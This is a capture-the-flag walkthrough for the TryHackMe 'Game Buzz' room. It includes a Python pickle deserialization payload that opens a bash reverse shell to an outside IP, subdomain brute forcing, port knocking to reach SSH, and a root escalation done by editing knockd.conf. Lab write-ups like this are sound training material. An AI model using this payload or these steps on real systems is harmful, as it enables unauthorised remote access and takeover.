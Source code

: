 # Game Buzz

![image](https://user-images.githubusercontent.com/5285547/128932672-b10c018a-8d55-4bfd-8edb-1d4100c0a480.png)

Romm link: https://tryhackme.com/room/gamebuzz

## Enum

Nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Incognito
```

---
## Port 80 

Checking the main website didn't show much, apart from a button that loads a file with a .pkl extension. 

![image](https://user-images.githubusercontent.com/5285547/128937818-90d5dd7c-561d-4463-8a1c-a79311deb7b5.png)

Also we find a domain name a the bottom of the main page.

```
sudo nano /etc/hosts  
ip incognito.com
```

Doing a subdomain brute force we find a new domain. 

```
ffuf -u http://incognito.com/ -H "Host: FUZZ.incognito.com" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 8853
```
## dev.incognito.com

```
sudo nano etc/hosts
IP dev.incognito.com
```

http://dev.incognito.com/secret/upload/

Finding the endpoint we can try to upload a file of our own. Based on the .pkl file extension this hints at python pickle deserilization. 

## User

If we can get our file to be read from the main website we can get RCE. 

test.pkl (rev shell)

```
#!/usr/bin/env python3
import pickle, os
class pickleSerilization(object):
    def __reduce__(self):
        return (os.system,("bash -c 'bash -i >& /dev/tcp/10.8.153.120/9999 0>&1'",))
pickle.dump(pickleSerilization(), open("rev_shell", "wb"))
```
Running the code gives us the rev_shell file. Upload this at "http://dev.incognito.com/secret/upload/" then call it with the main website.

![image](https://user-images.githubusercontent.com/5285547/128940779-a030648b-e70f-49e1-b35f-53d343d13e96.png)

```
su dev2
#no password
```

Now we can access the /home/dev2/ folder to find the user flag. 

---
## User 2

We find a file called "/etc/knockd.conf" that looks intresting. I see some ports we need to knock to open SSH

```
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCE$
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJE$
        tcpflags    = syn


5020,6120,7340
```

Doing some more enumeration showed some mails for dev1 in /var/mail, with a message to let ourselfs in! 

![image](https://user-images.githubusercontent.com/5285547/129106087-17c54550-1086-4344-9ff7-01f9253d7e90.png)

Using knock I opend the SSH port then used the password to login as dev1. 

```
knock  10.10.28.93 5020 6120 7340

ssh dev1@incognito.com
dc647eb65e6711e155375218212b3964
```

![image](https://user-images.githubusercontent.com/5285547/128942276-39b99b82-3826-4ec6-a5a8-341f920dda9b.png)

---
## Root

Enumerating the system again we can see the same file popping up in linpeas with acl permissions set. 

![image](https://user-images.githubusercontent.com/5285547/128942448-bd64f8da-f086-4d76-9c72-6e728f375d2e.png)

Knowing this lets edit the file to test some command execution (as root). 

```
nano /etc/knockd.conf
```

![image](https://user-images.githubusercontent.com/5285547/129106344-16e7d82d-d738-412d-bc2d-473f2991022d.png)

After editing the file I restarted the knockd service and tried again to knock the ports. 

```
sudo /etc/init.d/knockd restart 

knock  10.10.203.141 5020 6120 7340
ls /tmp
```

![image](https://user-images.githubusercontent.com/5285547/129106804-de631ac7-c5af-498a-9bd5-9ec7395b4eb2.png)

Then call the file with the now suid bit set for root.

![image](https://user-images.githubusercontent.com/5285547/129106866-21667040-40c7-4da3-8856-911d185dd7f1.png)





